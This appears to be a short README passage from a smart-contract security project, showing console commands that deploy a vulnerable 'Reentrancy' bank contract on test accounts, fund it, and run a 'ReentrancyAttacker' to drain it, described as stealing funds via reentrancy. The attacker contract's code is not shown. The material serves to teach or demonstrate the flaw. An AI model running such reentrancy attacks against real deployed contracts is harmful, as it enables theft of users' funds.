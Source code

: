 ## Bank
Basic example of stealing funds using reentrancy.

```
v = Reentrancy.deploy({'from': accounts[0]})
v.deposit({'from': accounts[0], 'value': 1000000000000000000})
a = ReentrancyAttacker.deploy(v.address,{'from': accounts[3]})
s = a.attack({'from': accounts[2]})
s.call_trace()
a.balance()
v.balance()
```
